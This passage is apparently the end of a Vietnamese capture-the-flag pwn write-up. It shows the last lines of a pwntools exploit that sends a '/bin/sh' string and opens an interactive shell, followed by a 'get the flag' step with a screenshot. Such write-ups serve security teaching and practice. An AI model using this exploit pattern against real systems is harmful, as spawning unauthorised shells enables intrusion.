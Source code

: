r.sendline()
r.send(b'/bin/sh\x00')

r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
